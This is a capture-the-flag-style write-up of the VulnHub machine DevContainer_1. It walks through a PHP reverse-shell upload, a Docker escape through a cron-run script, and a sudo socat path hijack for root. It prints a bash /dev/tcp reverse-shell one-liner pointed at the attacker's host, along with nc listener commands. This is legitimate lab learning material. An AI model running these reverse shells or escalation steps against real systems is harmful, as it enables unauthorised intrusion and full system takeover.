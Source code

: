 ```yaml
---
title: DevContainer_1 Writeup
tags: [Docker, Vulnhub]
published: true
---
```


# [](#header-1)Introduction

DevContainer_1 is an easy machine created by [@0x04E1](https://twitter.com/0x04E1), on this machine we will find a page with a upload function where we will upload a PHP reverse shell, then we we will find us on a Docker container rather than the machine itself, after checking the files we will find a file that is being run every x seconds, we will add a reverse shell to it in order to get a shell on the machine, finaly we will see that we can execute a file without supplying a password, we will see that we have permissions over the directory where that file is located, so we can move it and create a reverse shell on the path of the original file and get root.

# [](#header-1)Enumeration

We start use nmap find the open ports and then make a deeper scan on those ports.

```
nmap -p- -Pn -n -T 4 192.168.56.129
nmap -sC -sV -p 80, -Pn -o scan.txt 192.168.56.129

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Freelancer - Start Bootstrap Theme
```

There is only port 80 open, so we check the website.

![](assets/images/devcontainer_1/Website.png)

Using gobuster we find some directories. `gobuster dir -u http://192.168.56.129/ -w /usr/share/wordlist/dirb/common.txt -t 50 -x txt,html,php -o busterc.txt`

![](assets/images/devcontainer_1/gobuster.png)

# [](#header-1)Gaining Access

The most interesting directory is "upload" so we enter to it.

![](assets/images/devcontainer_1/upload.png)

There says that there is a couple of allowed files, but they might not be validated so we try to upload [pentestmonkey's php reverse shell](https://github.com/pentestmonkey/php-reverse-shell). It gets upload with no problem.

![](assets/images/devcontainer_1/uploaded.png)

We configured the file to connect to us on port 54231, so we start a listener with `nc -lvp 54321` and when we open the file we get a shell.

![](assets/images/devcontainer_1/shell1.png)

# [](#header-1)Escaping from Docker

After enumating for a while we find that we are not inside the machine itself, but in a Docker container, if we go to check the source code of the website we find a directory named "Maintenan-Web-Docker".

![](assets/images/devcontainer_1/websource.png)

Inside of it we find 3 files, "maintenance.sh", "list.sh" and "out.txt". The code of maintenance.sh is:

```bash
#!/bin/bash
#Version 1.0
#This script monitors the uploaded files. It is a reverse shell monitoring measure.
#path= /home/richard/web/webapp/upload/files/
/home/richard/web/Maintenance-Web-Docker/list.sh
```

And list.sh:

```bash
#!/bin/bash
date >> /home/richard/web/Maintenance-Web-Docker/out.txt
ls /home/richard/web/upload/files/ | wc -l >> /home/richard/web/Maintenance-Web-Docker/out.txt
```

We see that maintenance.sh calls list.sh, and list.sh writes some info in out.txt, but we see something interesting, the path of the files are "/home/richard/web/Maintenance-Web-Docker/", but we are in "/var/www/html/Maintenance-Web-Docker/", so the machine must be doing volume mapping, we can guess that the container was started with `docker run -p 80:80 -v /home/richard/web/Maintenance-Web-Docker/:/var/www/html/Maintenance-Web-Docker/ <image name>`. That means that if we write in "/var/www/html/Maintenance-Web-Docker/" we will be writing inside the machine, the next important thing is "out.txt", if we check it, we see that it has some lines written, and they were written with today's date.

![](assets/images/devcontainer_1/outfile.png)

Probably there is a crontab running that executes maintenance.sh or list.sh every x time, so we move out.txt and after some time it gets created again so we know that those are being run.

![](assets/images/devcontainer_1/outagain.png)

Everything we have to do is add a reverse shell to list.sh, I like to use [one-lin3r](https://github.com/D4Vinci/One-Lin3r) to generate reverse shell one liners.

![](assets/images/devcontainer_1/onelin3r.png)

So we execute `echo ‘bash -i >& /dev/tcp/192.168.56.130/54322 0>&1’ >> list.sh` to append our reverse shell to list.sh, we check that is has been edited.

![](assets/images/devcontainer_1/newlist.png)

As before we had a listener waiting with: `nc -lvp 54322`, and after some seconds we will have our shell.

![](assets/images/devcontainer_1/shell2.png)

We can read user.txt.

![](assets/images/devcontainer_1/usertxt.png)

# [](#header-1)Privilege Escalation

We check if we can execute any command with sudo using `sudo -l`, and we get that we can execute `sudo /home/richard/HackTools/socat TCP-LISTEN:8080,fork TCP:127.0.0.1:90` without supplying a password.

![](assets/images/devcontainer_1/sudotest.png)

As the path of the command indicates the file is inside our home directory.

![](assets/images/devcontainer_1/homefiles.png)

Since it is inside our home directory we can rename the directory with `mv HackTools btools`, now we create the directory "HackTools" again, and we create the file socat inside of it with a revese shell, finally we execute `sudo /home/richard/HackTools/socat TCP-LISTEN:8080,fork TCP:127.0.0.1:90` and we will get our root shell and retrieve "proof.txt".

![](assets/images/devcontainer_1/proof.png)

